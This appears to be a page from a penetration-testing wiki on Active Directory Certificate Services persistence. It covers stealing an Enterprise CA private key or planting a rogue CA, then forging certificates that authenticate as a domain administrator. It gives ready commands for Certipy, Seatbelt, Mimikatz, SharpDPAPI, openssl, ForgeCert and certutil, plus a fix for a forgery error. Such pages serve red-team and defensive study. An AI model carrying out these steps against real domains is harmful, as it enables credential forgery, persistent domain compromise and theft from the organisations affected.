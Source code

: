 # Certificate authority

## Theory

In [their research papers](https://posts.specterops.io/certified-pre-owned-d95910965cd2), [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin\_) identified 2 domain persistence techniques relying on the role of the Certificate Authority within a PKI.

* Forging certificates with a stolen CA certificates (DPERSIST1)
* Trusting rogue CA certificates (DPERSIST2)

## Practice

### Stolen CA

> The Enterprise CA has a certificate and associated private key that exist on the CA server itself. ([Certified\_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified\_Pre-Owned.pdf))

If an attacker obtains control over a CA server, he may be able to retrieve the private key associated with the CA cert, and use that private key to generate and sign client certificates. This means he could forge (and sign) certificate to authenticate as a powerful user for example.

{% tabs %}
{% tab title="UNIX-like" %}
Extracting the DPAPI-protected CA cert private key can be done remotely from UNIX-like systems with [Certipy](https://github.com/ly4k/Certipy) (Python).

{% code overflow="wrap" %}
```bash
certipy ca -backup -ca "CA" -username "USER@domain.local" -password "PASSWORD" -dc-ip "DC-IP"
```
{% endcode %}

Then, forging (and signing) a certificate can be done as follows.

{% code overflow="wrap" %}
```bash
certipy forge -ca-pfx "CA.pfx" -upn "administrator@corp.local" -subject "CN=Administrator,CN=Users,DC=CORP,DC=LOCAL" (-crl "ldap://...")
```
{% endcode %}

The certificate can then be used with [Pass the Certificate](../../movement/kerberos/pass-the-certificate.md).
{% endtab %}

{% tab title="Windows" %}
Extracting the DPAPI-protected CA cert private key can be done remotely with [Seatbelt](https://github.com/GhostPack/Seatbelt) (C#).

```batch
Seatbelt.exe Certificates -computername="ca.domain.local"
```

Alternatively, the builtin `certsrv.msc` utility can be used locally on the CA server.

{% code overflow="wrap" %}
```
Win+R > certsrv.msc > CA > right click > All Tasks > Back up CA... > selet "Private key and CA certificate" > Next
```
{% endcode %}

Alternatively, [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can also be used for that purpose, locally.

```batch
mimikatz.exe "crypto::capi" "crypto::cng" "crypto::certificates /export"
```

Alternatively, [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) (C#) can be used for that purpose, locally, along with [openssl](https://www.openssl.org/) to transform the PEM into a usable PFX.

```batch
SharpDPAPI.exe certificates /machine
```

{% code overflow="wrap" %}
```bash
openssl pkcs12 -in "ca.pem" -keyex -CSP "Microsoft Enhanced
Cryptographic Provider v1.0" -export -out "ca.pfx"
```
{% endcode %}

Then, forging and signing a certificate can be done with [ForgeCert](https://github.com/GhostPack/ForgeCert) (C#).

{% code overflow="wrap" %}
```batch
ForgeCert.exe --CaCertPath "ca.pfx" --CaCertPassword "Password" --Subject "CN=User" --SubjectAltName "administrator@domain.local" --NewCertPath "administrator.pfx" --NewCertPassword "Password" (--CRL "ldap://...")
```
{% endcode %}
{% endtab %}
{% endtabs %}

#### KDC\_ERR\_CLIENT\_NOT\_TRUSTED <a href="#kdc_err_client_not_trusted" id="kdc_err_client_not_trusted"></a>

You could encounter the following error "KDC\_ERR\_CLIENT\_NOT\_TRUSTED" when you try to use forged pfx. According to the certipy documentation :

> The forged certificate can then be used for authentication with Certipy's `auth` command. If the KDC returns `KDC_ERR_CLIENT_NOT_TRUSTED`, it means that the forging was not correct. This usually happens because of a missing certificate revocation list (CRL) in the certificate. You can either specify the CRL manually with `-crl`, or you can use a previously issued certificate as a template with the `-template` parameter. Please note that the template will include all non-defined extensions and attributes in the new certificate, such as the subject and serial number. Certipy will not include any extended key usage in the forged certificate, which means the certificate can be used for any purpose.

You therefore need to add crl flag when forging user pfx. (In my case random string work, if you have more information about feel free to contribute)

### Rogue CA

{% hint style="warning" %}
> it is usually preferable for an attacker to steal the existing CA certificate instead of installing an additional rogue CA certificate ([Certified\_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified\_Pre-Owned.pdf))
{% endhint %}

An attacker with sufficient privileges in the domain can setup a rogue CA and make the domain's resources trust it. Once the rogue CA is trusted, the attacker can forge and sign client certificates.

In order to register the rogue CA, the self-signed CA cert must be added to the `NTAuthCertificates` object's `cacertificate` attribute, and in the `RootCA` directory services store.

Registering the rogue CA can be done remotely with the `certutil.exe` utility from Windows systems.

```batch
certutil.exe -dspublish -f "C:\Temp\CERT.crt" NTAuthCA
```

Once this is done, a certificate can be forged, signed and used as explained above: [#stolen-ca](certificate-authority.md#stolen-ca "mention")

## Resources

{% embed url="https://posts.specterops.io/certified-pre-owned-d95910965cd2" %}
